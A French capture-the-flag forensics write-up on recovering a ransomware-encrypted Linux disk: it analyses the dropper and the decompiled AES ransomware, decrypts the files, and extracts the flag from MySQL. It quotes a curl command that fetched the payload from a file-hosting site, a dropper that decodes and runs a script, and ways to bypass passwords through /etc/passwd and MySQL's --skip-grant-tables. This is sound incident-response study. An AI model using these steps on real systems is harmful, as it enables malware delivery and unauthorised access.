






# Ministry of catapult


## Introduction

Ministry of catapult était un challenge de forensics, celui-ci était vraiment réaliste et intéractif. 
Ce fût l'un de mes challenges que j'ai le plus apprécié sur l'événement. Je l'ai résolu en plusieurs étapes, sans le dump qui était fourni, à laquelle chacune d'entre elles m'a permis de découvrir plusieurs astuces notamment le bypass du mot de passe root ainsi que le bypass de l'auth MySQL en local.

## Description

Le ministère de la Catapulte fabrique les derniers composants modernes pour la marine, notamment des lanceurs de porte-avions.

Une vente est en cours avec un client. Nous vendons notre dernière innovation appelée "nemo". Malheureusement un ransomware vient de chiffrer notre base de données.

Aidez-nous à retrouver les informations du client pour continuer notre activité.

Deux fichiers étaient fournis dans l'archive, je n'ai eu besoin que du deuxième pour résoudre le challenge :
- ministry-of-catapult.elf, un dump mémoire,
- ministry-of-catapult.vmdk, une image disque VMware.

-----

## Résolution

**État des lieux & Détection de l'attaque**  

Avant de faire une manipulation non souhaitée, j'ai préfèré télécharger en vitesse VirtualBox et tenté de monter le disque sur une VM. Malheureusement, il n'est pas possible de faire grand chose étant donné que nous ne sommes pas root sur la machine et beaucoup de fichiers sont chiffrés par le ransomware. Je créé alors rapidement une VM lubuntu pour analyser le disque. 

Après avoir monté le disque sur la VM, on se rend compte que plusieurs fichiers sont chiffrés, l'extension .lock est appliquée sur ceux-ci. Sous le home de l'utilisateur catapult, on trouve sous son Bureau, un fichier "ransomware.png.lock" qui nous indique qu'en effet, un ransomware est bien passé par là (cf description).

Je décide donc de fouiller les logs, et je tombe sur ce téléchargement suspect (je cache volontairement le lien pour éviter un téléchargement et une éxécution non souhaitée ;-)):

`auth.log.1:Oct 28 16:13:08 catapult sudo:     root : TTY=pts/1 ; PWD=/root ; USER=root ; COMMAND=/usr/bin/curl -s -k -L https://cdn-109.anonfiles.com/<path>/payload1.sh`

Je tente de chercher si ce fichier persiste sur le disque à travers (commande find) mais rien n'est trouvé, l'attaquant à dû effacer ses traces. Je décide donc de télécharger ce fichier suspect (je vous invite à lire d'autres write-ups https://www.dghack.fr/ qui se servent du fichier dump associé à l'archive pour l'extraction des fichiers/clés).

Le script payload1.sh décode (base64) un fichier python bitcoin.py et lui attribue tous les droits pour ensuite l'éxécuter.    

```sh
#!/bin/sh
pp=`command -v python3`
echo "<hidden base64 encoded payload>" | base64 --decode >> bitcoin.py
chmod 777 bitcoin.py && "$pp" bitcoin.py
```

Une petite difficulté à surmonter est qu'ici le fichier python est compilé.
> bitcoin.py: python 3.9 byte-compiled

Je tente une première décompilation grâce à l'outil decompyle3 qui malheureusement échoue dû à la version trop récente de python.

```
decompyle3 bitcoin.py
I don't know about Python version '3.10.7' yet.
Python versions 3.9 and greater are not supported.
```

Après quelques recherches, je trouve un outil qui parvient à le décompiler : https://github.com/zrax/pycdc.git

> ./pycdc/pycdc decipher/bitcoin.py > bitcoin-dec.py

Le code désassemblé montre que le script python parcours plusieurs dossiers stratégiques (très joliment fait avec du multi-threading :-)) :

```python
paths = [
        '/etc/mysql',
        '/run/mysqld',
        '/var/lib/mysql',
        '/home',
        '/root',
        '/run']
```

et chiffre en AES CBC tous les fichiers sous ces répertoires avec une clé et un sel random de 16 bytes, ce sel étant ajouté au début de chaque fichier chiffré :

```python
    vc = [
        b'0x44',
        b'0x76',
        b'0x73',
        b'0x69',
        b'0x35',
        b'0x32',
        b'0x46',
        b'0x4f',
        b'0x40',
        b'0x36',
        b'0x21',
        b'0x74',
        b'0x2a',
        b'0x31',
        b'0x70',
        b'0x6a',
        b'0x37',
        b'0x26',
        b'0x6e',
        b'0x4b',
        b'0x63',
        b'0x32',
        b'0x40',
        b'0x64',
        b'0x63',
        b'0x31',
        b'0x4f',
        b'0x71',
        b'0x31',
        b'0x55',
        b'0x72',
        b'0x4d']
```

Méthode de chiffrement :

```python
def encrypt(in_file, out_file, password, key_length = (32,)):
    bs = AES.block_size
    salt = urandom(bs)
    (key, iv) = derive_key_and_iv(password, salt, key_length, bs)
    cipher = AES.new(key, AES.MODE_CBC, iv)
    out_file.write(salt)
    finished = False
    if not finished:
        chunk = in_file.read(1024 * bs)
        if len(chunk) == 0 or len(chunk) % bs != 0:
            if not bs - len(chunk) % bs:
                pass
            padding_length = bs
            chunk += str.encode(padding_length * chr(padding_length))
            finished = True
        out_file.write(cipher.encrypt(chunk))
        continue
```

On comprend donc que l'attaquant a eu accès au serveur et s'est permis de chiffrer l'ensemble des fichiers. L'analyse prend fin ici.

**Restauration des fichiers chiffrés**

Je récupère et j'adapte rapidement une fonction de déchiffrement afin de restaurer l'ensemble des fichiers :

```python
from hashlib import md5
from Cryptodome.Cipher import AES
from os import urandom, walk, path

def derive_key_and_iv(password, salt, key_length, iv_length): #derive key and IV from password and salt.
    d = d_i = b''
    while len(d) < key_length + iv_length:
        d_i = md5(d_i + str.encode(password) + salt).digest() #obtain the md5 hash value
        d += d_i
    return d[:key_length], d[key_length:key_length+iv_length]

def decrypt(in_file, out_file, password, key_length=32):
    bs = AES.block_size
    salt = in_file.read(bs)
    key, iv = derive_key_and_iv(password, salt, key_length, bs)
    cipher = AES.new(key, AES.MODE_CBC, iv)
    next_chunk = ''
    finished = False
    while not finished:
        chunk, next_chunk = next_chunk, cipher.decrypt(in_file.read(1024 * bs))
        if len(next_chunk) == 0:
            padding_length = chunk[-1]
            chunk = chunk[:-padding_length]
            finished = True 
        out_file.write(bytes(x for x in chunk)) 


password = 'Dvsi52FO@6!t*1pj7&nKc2@dc1Oq1UrM' # Key
paths = ['./etc/mysql','./run/mysqld','./var/lib/mysql','./home','./root','./run'] # Relative paths

for p in paths:
	for walkdir, subdirs, files in walk(p):
		for f in files:
			if '.lock' in f:				
				print (path.join(walkdir, f[0:-5]))
				with open(path.join(walkdir, f), 'rb') as in_file, open(path.join(walkdir, f[0:-5]), 'wb') as out_file:
					decrypt(in_file, out_file, password)
```

Quelques fichiers m'embêtent car ils ont déjà une extension .lock (de mémoire, ils se situaient dans les profiles firefox), je prends soin de les supprimer car ils ne nous intéressent pas ici. La restauration est terminée.

**Récupération du flag**

Parfait, on va pouvoir booter une VM directement sur le disque pour avoir accès aux services.
J'omets de préciser les multiples tentatives précédentes (crack hash, reset password...), mais la principale difficulté que j'ai eu était de pouvoir redémarrer les services correctements, n'ayant ni le mot de passe des utilisateurs, ni les droits root. 

Heuresement, Internet est mon ami et m'indique qu'il est possible de bypasser les mot de passes en modifiant le fichier /etc/passwd du disque, il suffit de supprimer le "x" qui vient après l'utilisateur (pour comprendre le format passwd : https://fr.wikipedia.org/wiki/Passwd).

J'ai donc modifié les lignes pour ces trois utilisateurs :

```
root:x:0:0:root:/root:/bin/bash
catapult:x:1000:1000::/home/catapult:/bin/bash
mysql:x:109:116:MySQL Server,,,:/nonexistent:/bin/false
```

vers

```
root::0:0:root:/root:/bin/bash
catapult::1000:1000::/home/catapult:/bin/bash
mysql::109:116:MySQL Server,,,:/nonexistent:/bin/false
```

Je reboot la VM sur ce disque pour continuer les opérations.





Le challenge précisait qu'il fallait récupérer les données d'un client qui souhaite acquérir leur produit "nemo", le flag se trouve donc certainement en base de données. Après plusieurs essais, je parviens à redémarrer le service MySQL présent sur le disque (quelques soucis de droits sur certains fichiers).

Je tente une première connexion mais il faut un mot de passe pour accéder à la base de données, je trouve alors un moyen d'y accéder sans mot de passe.

On stop le service mysqld / mariadb et on le rédémarre en mode "safe".

```
mysqld_safe --skip-grant-tables &
```

Avec un autre terminal, on se connecte au serveur de base de données avec le cli mysql.

```
mysql -u root
```



Une fois sur la base de données avec mysql cli, on peut requêter à nos souhaits tout ce qu'il faut :-).




J'avoue ne pas avoir compris pourquoi le client qui détenait le flag n'était pas dans la la liste des clients ayant acheté une catapulte nemo.
En effet, en décodant les descriptions des clients (base64) ayant acheté cette catapulte, aucun flag n'apparaissait.

> select * from customer where id in (select customer_id from purchases where catapult_id=(select id from catapult where name='nemo'));



Après cette incompréhension, j'ai décidé de vérifier toutes les descriptions des clients qui s'est montré plus fructueux.

> select id, name, FROM_BASE64(description) from customer where FROM_BASE64(description) LIKE '%DGHACK%';



Il ne reste plus qu'à flag !

Merci pour ce challenge :-).
